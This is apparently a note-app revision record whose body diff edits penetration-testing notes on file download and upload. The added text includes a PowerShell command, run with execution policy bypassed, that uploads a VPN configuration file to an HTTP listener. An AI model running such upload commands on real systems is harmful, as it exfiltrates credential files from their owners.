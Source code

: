 id: 5fc87e897b684526868a5997dbe36fc2
parent_id: 5e246d31cd7646ad825b13b275e7a86d
item_type: 1
item_id: 6542c907ee3d4b659b0fd7588c5dbe48
item_updated_time: 1642578262874
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"ctim):\\\n\\\n\"],[1,\"# \"],[0,\"Download\"]],\"start1\":66,\"start2\":66,\"length1\":16,\"length2\":18},{\"diffs\":[[0,\"ver 8000\"],[-1,\" \"],[0,\"\\\n> \\\n> su\"]],\"start1\":150,\"start2\":150,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\"8001\"],[-1,\" \"],[0,\"\\\n\\\n\"],[1,\"# \"],[0,\"Upload:\"],[-1,\" \"],[0,\"\\\n\\\nTu\"]],\"start1\":192,\"start2\":192,\"length1\":19,\"length2\":19},{\"diffs\":[[0,\"g.ovpn')\"],[1,\"\\\n> \\\n> powershell -nop -exec bypass -c \\\"(New-Object System.Net.WebClient).UploadFile('http://127.0.0.1:8000/', 'lincoln.lg.ovpn')\\\"\"],[0,\"\\\n\\\nIf we \"]],\"start1\":442,\"start2\":442,\"length1\":16,\"length2\":145},{\"diffs\":[[0,\"llo\\\"\"],[-1,\" \"],[0,\"\\\n\\\n\"],[1,\"# \"],[0,\"Old \"]],\"start1\":710,\"start2\":710,\"length1\":11,\"length2\":12},{\"diffs\":[[0,\"e to\"],[1,\"=\\\"\\\"\"],[0,\" upload\"],[1,\"=\\\"\\\"\"],[0,\">')\\\"\"],[1,\"</file>\"],[0,\"\\\n- F\"]],\"start1\":993,\"start2\":993,\"length1\":19,\"length2\":32}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-19T07:45:39.388Z
created_time: 2022-01-19T07:45:39.388Z
type_: 13